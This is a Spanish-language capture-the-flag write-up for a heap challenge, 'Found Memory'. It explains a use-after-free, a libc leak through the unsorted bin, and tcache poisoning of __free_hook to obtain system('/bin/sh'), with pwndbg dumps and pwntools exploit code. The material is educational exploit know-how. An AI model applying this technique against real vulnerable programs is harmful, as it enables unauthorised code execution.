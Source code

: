 # Found Memory

Este reto es similar a Lost Memory. Podemos:
- Reservar chunks de 0x30 bytes en el heap
- Liberarlos
- Leerlos
- Escribirlos

Al liberarse memoria no se asigna NULL a los punteros asi que tenemos una vulnerabilidad Use After Free.

### libc leak

Se liberan tres chunks y se sobreescribe el fd del segundo en el tcache para que apunte a la cabecera de chunk1
```
 tcache -> chunk2 -> chunk1 -> chunk0
                  fd        fd
                            -> chunk1 (header)
```

Dump de pwndbg:
```
tcachebins
0x40 [  3]: 0x5593dad4c320 —▸ 0x5593dad4c2e0 —▸ 0x5593dad4c2a0 ◂— 0

tcachebins
0x40 [  3]: 0x5593dad4c320 —▸ 0x5593dad4c2e0 —▸ 0x5593dad4c2d0 ◂— 0

pwndbg> x/20xw   0x5593dad4c2a0
0x5593dad4c2a0: 0x00000000      0x00000000      0xdad4c010      0x00005593
0x5593dad4c2b0: 0x00000000      0x00000000      0x00000000      0x00000000
0x5593dad4c2c0: 0x00000000      0x00000000      0x00000000      0x00000000
0x5593dad4c2d0: 0x00000000      0x00000000      0x00000041      0x00000000
0x5593dad4c2e0: 0xdad4c2d0      0x00005593      0xdad4c010      0x00005593
```


Se reserva para obtener un puntero a la cabecera de chunk1 y se escribe en el campo `size` un valor grande (0x441). Cuando este chunk se libere sera enviado a `unsorted bin` por ser demasiado grande para `tcache`.

El primer chunk en unsorted bin tiene su fd y bk apuntando a direcciones de libc:
```
unsortedbin
all: 0x5607e59042d0 —▸ 0x7f60399d8be0 ◂— 0x5607e59042d0
```

``` python
free(0)
free(1)
free(2)
edit(1, p8(0xd0)) 
alloc() # c2 
alloc() # c1 
alloc() # c1 
edit(2, p64(0)+p64(0x441))
free(1) 
view(1)
leak = u64(r.recv(8))
```


### ret2libc

Finalmente podemos hacer un ret2libc usando el hook `__free_hook` que es llamado en lugar de `free` si no es nulo. 

Apuntando `__free_hook` a `system` y poniendo el argumento `/bin/sh\0` en el chunk a liberar conseguimos llamar a `system("/bin/sh")`

Estado del tcache durante el proceso:
```
 tcache -> chunk20 -> chunk19 -> __free_hook (puntero a system)
                  fd         fd
```

```python
#tcache poison to get a shell by overwriting the free hook ( < glibc 2.31 )
free(19)
free(20)
edit(21, b"/bin/sh\0")
edit(20, p64(libc.sym.__free_hook))
alloc()
alloc()
edit(19, p64(libc.sym.system))
rcu(b">")
#shell
sl(b"2")
sla(b"free:",bc(21))
#========= interactive ====================
r.interactive()
```

